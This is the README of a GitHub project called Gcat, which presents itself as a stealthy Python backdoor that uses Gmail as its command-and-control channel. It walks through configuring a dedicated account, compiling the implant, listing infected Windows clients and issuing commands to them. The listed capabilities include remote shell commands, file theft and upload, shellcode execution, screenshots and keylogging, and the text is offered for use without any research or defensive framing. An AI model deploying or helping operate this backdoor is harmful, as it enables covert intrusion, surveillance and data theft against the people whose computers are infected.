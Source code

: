 Gcat
====
A stealthy Python based backdoor that uses Gmail as a command and control server

Setup 
=====
For this to work you need:
- A Gmail account (**Use a dedicated account! Do not use your personal one!**)
- Turn on "Allow less secure apps" under the security settings of the account
- You may also have to enable IMAP in the account settings

This repo contains two files:
- ```gcat.py``` a script that's used to enumerate and issue commands to available clients
- ```implant.py``` the actual backdoor to deploy

In both files, edit the ```gmail_user``` and ```gmail_pwd``` variables with the username and password of the account you previously setup.

You're probably going to want to compile ```implant.py``` into an executable using [Pyinstaller](https://github.com/pyinstaller/pyinstaller)

**Note: It's recommended you compile implant.py using a 32bit Python installation**

Usage
=====
```
                                             dP   
                                             88   
                .d8888b. .d8888b. .d8888b. d8888P 
                88'  `88 88'  `"" 88'  `88   88   
                88.  .88 88.  ... 88.  .88   88   
                `8888P88 `88888P' `88888P8   dP   
                     .88                          
                 d8888P  
                     

                   .__....._             _.....__,
                     .": o :':         ;': o :".
                     `. `-' .'.       .'. `-' .'   
                       `---'             `---'  

             _...----...      ...   ...      ...----..._
          .-'__..-''----    `.  `"`  .'    ----'''-..__`-.
         '.-'   _.--'''       `-._.-'       ''''--._   `-.`
         '  .-"'                  :                  `"-.  `
           '   `.              _.'"'._              .'   `
                 `.       ,.-'"       "'-.,       .'
                   `.                           .'
              jgs    `-._                   _.-'
                         `"'--...___...--'"`

                     ...IM IN YUR COMPUTERZ...

                        WATCHIN YUR SCREENZ

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -id ID                Client to target
  -jobid JOBID          Job id to retrieve

  -list                 List available clients
  -info                 Retrieve info on specified client

Commands:
  Commands to execute on an implant

  -cmd CMD              Execute a system command
  -download PATH        Download a file from a clients system
  -upload SRC DST       Upload a file to the clients system
  -exec-shellcode FILE  Execute supplied shellcode on a client
  -screenshot           Take a screenshot
  -lock-screen          Lock the clients screen
  -force-checkin        Force a check in
  -start-keylogger      Start keylogger
  -stop-keylogger       Stop keylogger

Meow!

```

- Once you've deployed the backdoor on a couple of systems, you can check available clients using the list command:
```
#~ python gcat.py -list
f964f907-dfcb-52ec-a993-543f6efc9e13 Windows-8-6.2.9200-x86
90b2cd83-cb36-52de-84ee-99db6ff41a11 Windows-XP-5.1.2600-SP3-x86
```
The output is a UUID string that uniquely identifies the system and the OS the implant is running on


- Let's issue a command to an implant:
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -cmd 'ipconfig /all'
[*] Command sent successfully with jobid: SH3C4gv
```
Here we are telling ```90b2cd83-cb36-52de-84ee-99db6ff41a11``` to execute ```ipconfig /all```, the script then outputs the ```jobid``` that we can use to retrieve the output of that command

- Lets get the results!
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -jobid SH3C4gv     
DATE: 'Tue, 09 Jun 2015 06:51:44 -0700 (PDT)'
JOBID: SH3C4gv
FG WINDOW: 'Command Prompt - C:\Python27\python.exe implant.py'
CMD: 'ipconfig /all'


Windows IP Configuration

        Host Name . . . . . . . . . . . . : unknown-2d44b52
        Primary Dns Suffix  . . . . . . . : 
        Node Type . . . . . . . . . . . . : Unknown
        IP Routing Enabled. . . . . . . . : No
        WINS Proxy Enabled. . . . . . . . : No

-- SNIP --
```

- That's the gist of it! But you can do much more as you can see from the usage of the script! ;)

To Do
=====

- Multi-platform support
- ~~Command to upload files~~
- Transport crypto & obfuscation
